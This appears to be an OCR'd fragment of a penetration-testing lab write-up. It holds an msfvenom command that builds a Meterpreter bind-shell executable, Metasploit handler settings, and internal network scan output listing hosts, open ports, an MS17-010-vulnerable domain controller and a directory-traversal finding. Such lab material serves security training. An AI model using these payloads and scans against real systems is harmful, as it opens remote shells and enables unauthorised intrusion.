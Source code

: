 ````sql
```powershell
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=5558 -f exe -o 555.exe

set payload windows/x64/meterpreter/bind_tcp
set lport 5558
set rhost 192.168.22.129
```

```
10.10.10.135:445 open
10.10.10.131:445 open
10.10.10.135:3306 open
10.10.10.131:3306 open
10.10.10.1:445 open
10.10.10.133:445 open
10.10.10.1:139 open
10.10.10.133:139 open
10.10.10.135:139 open
10.10.10.131:139 open
10.10.10.133:135 open
10.10.10.135:135 open
10.10.10.1:135 open
10.10.10.131:135 open
10.10.10.131:80 open
10.10.10.133:88 open
10.10.10.1:9999 open
[*] alive ports len is: 17
start vulscan
[*] NetInfo:
[*]10.10.10.131
   [->]12server-web2
   [->]10.10.10.131
   [->]192.168.22.129
[*] WebTitle: http://10.10.10.131 code:200 len:4301 title: Demonstration: JWT practice: Use axios+PHP to implement login authentication
[*] NetInfo:
[*]10.10.10.1
   [->]Liu
   [->]192.168.110.1
   [->]10.10.10.1
   [->]192.168.52.1
   [->]192.168.93.1
   [->]192.168.111.1
   [->]192.168.31.42
   [->]192.168.22.1
   [->]172.28.96.1
   [->]172.26.0.1
   [->]192.168.74.1
[+] 10.10.10.133 MS17-010 (Windows Server 2016 Standard 14393)
[*] NetInfo:
[*]10.10.10.135
   [->]12server-data2
   [->]192.168.74.129
   [->]10.10.10.135
[*] NetInfo:
[*]10.10.10.133
   [->]16server-dc1
   [->]10.10.10.133
[*] NetBios: 10.10.10.131 12server-web2.ack123.com Windows Server 2012 R2 Standard 9600
[*] WebTitle: http://10.10.10.1:9999 code:200 len:1108 title:Directory listing for /
[+] InfoScan: http://10.10.10.1:9999 [Directory Traversal]
[*] NetBios: 10.10.10.1 WORKGROUP\LIU
[*] NetBios: 10.10.10.135 12server-data2.ack123.com Windows Server 2012 R2 St
````
